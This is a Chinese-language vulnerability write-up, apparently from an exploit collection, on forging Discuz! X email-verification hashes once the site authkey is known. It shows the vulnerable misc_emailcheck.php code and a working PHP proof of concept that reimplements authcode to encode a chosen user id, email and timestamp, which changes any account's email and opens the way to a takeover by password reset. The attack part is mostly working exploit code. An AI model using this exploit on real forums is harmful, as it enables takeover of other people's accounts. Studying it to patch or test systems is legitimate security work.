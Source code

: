 Discuz! X authkey 重置任意账户邮箱
==================================

一、漏洞简介
------------

需要得到authkey

二、漏洞影响
------------

三、复现过程
------------

当我们申请修改邮箱的时候，我们会受到一封类似于下面这样的邮件。

![](resource/Discuz!Xauthkey重置任意账户邮箱/media/rId24.png)

验证链接类似于

    http://www.0-sec.org/dz3.3/home.php?mod=misc&ac=emailcheck&hash=0eb7yY2wtS1q16Zs2%2BtSkR6w5O%2Fx6jdLbu0FnWbegB8ixs2Y6tfcyAnrvz4yPIE7pKzoqawU0ku47y4F

跟入`/source/include/misc/misc_emailcheck.php` 代码如下：

    <?php
    /**
     *      [Discuz!] (C)2001-2099 Comsenz Inc.
     *      This is NOT a freeware, use is subject to license terms
     *
     *      $Id: misc_emailcheck.php 33688 2013-08-02 03:00:15Z nemohou $
     */
    if(!defined('IN_DISCUZ')) {
        exit('Access Denied');
    }
    $uid = 0;
    $email = '';
    $_GET['hash'] = empty($_GET['hash']) ? '' : $_GET['hash'];
    if($_GET['hash']) {
        list($uid, $email, $time) = explode("\t", authcode($_GET['hash'], 'DECODE', md5(substr(md5($_G['config']['security']['authkey']), 0, 16))));
        $uid = intval($uid);
    }
    // exit($email);
    if($uid && isemail($email) && $time > TIMESTAMP - 86400) {
        $member = getuserbyuid($uid);
        $setarr = array('email'=>$email, 'emailstatus'=>'1');
        if($_G['member']['freeze'] == 2) {
            $setarr['freeze'] = 0;
        }
        loaducenter();
        $ucresult = uc_user_edit(addslashes($member['username']), '', '', $email, 1);
        if($ucresult == -8) {
            showmessage('email_check_account_invalid', '', array(), array('return' => true));
        } elseif($ucresult == -4) {
            showmessage('profile_email_illegal', '', array(), array('return' => true));
        } elseif($ucresult == -5) {
            showmessage('profile_email_domain_illegal', '', array(), array('return' => true));
        } elseif($ucresult == -6) {
            showmessage('profile_email_duplicate', '', array(), array('return' => true));
        }
        if($_G['setting']['regverify'] == 1 && $member['groupid'] == 8) {
            $membergroup = C::t('common_usergroup')->fetch_by_credits($member['credits']);
            $setarr['groupid'] = $membergroup['groupid'];
        }
        updatecreditbyaction('realemail', $uid);
        C::t('common_member')->update($uid, $setarr);
        C::t('common_member_validate')->delete($uid);
        dsetcookie('newemail', "", -1);
        showmessage('email_check_sucess', 'home.php?mod=spacecp&ac=profile&op=password', array('email' => $email));
    } else {
        showmessage('email_check_error', 'index.php');
    }
    ?>

当hash传入的时候，服务端会调用authcode函数解码获得用户的uid，要修改成的email，时间戳。

    list($uid, $email, $time) = explode("\t", authcode($_GET['hash'], 'DECODE', md5(substr(md5($_G['config']['security']['authkey']), 0, 16))));

然后经过一次判断

    if($uid && isemail($email) && $time > TIMESTAMP - 86400) {

这里没有任何额外的判断，在接下来的部分，也仅仅对uid的有效性做了判断，而uid代表这用户的id值，是从1开始自增的。

也就是说，只要authcode函数解开hash值，就能成功的验证并修改邮箱。

这里我们可以直接使用authcode函数来获得hash值

### poc

> 这里需要修改md5(\"authkey\")

    <?php
            //Enter your code here, enjoy!
    function authcode($string, $operation = 'DECODE', $key = '', $expiry = 0) {
        $ckey_length = 4;
        $key = md5($key ? $key : UC_KEY);
        $keya = md5(substr($key, 0, 16));
        $keyb = md5(substr($key, 16, 16));
        $keyc = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';
        $cryptkey = $keya.md5($keya.$keyc);
        $key_length = strlen($cryptkey);
        $string = $operation == 'DECODE' ? base64_decode(substr($string, $ckey_length)) : sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
        $string_length = strlen($string);
        $result = '';
        $box = range(0, 255);
        $rndkey = array();
        for($i = 0; $i <= 255; $i++) {
            $rndkey[$i] = ord($cryptkey[$i % $key_length]);
        }
        for($j = $i = 0; $i < 256; $i++) {
            $j = ($j + $box[$i] + $rndkey[$i]) % 256;
            $tmp = $box[$i];
            $box[$i] = $box[$j];
            $box[$j] = $tmp;
        }
        for($a = $j = $i = 0; $i < $string_length; $i++) {
            $a = ($a + 1) % 256;
            $j = ($j + $box[$a]) % 256;
            $tmp = $box[$a];
            $box[$a] = $box[$j];
            $box[$j] = $tmp;
            $result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
        }
        if($operation == 'DECODE') {
            if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
                return substr($result, 26);
            } else {
                return '';
            }
        } else {
            return $keyc.str_replace('=', '', base64_encode($result));
        }
    }
    echo authcode("3\ttest@success.com\t1503556905", 'ENCODE', md5(substr(md5("5e684ceqNxuCvmoK"), 0, 16)));

访问hash页面，我们可以看到验证邮箱已经被修改了，接下来我们可以直接通过忘记密码来修改当前用户的密码。

![](resource/Discuz!Xauthkey重置任意账户邮箱/media/rId26.png)

参考链接
--------

> https://lorexxar.cn/2017/08/31/dz-authkey/\#%E6%BC%8F%E6%B4%9E%E8%AF%A6%E6%83%85
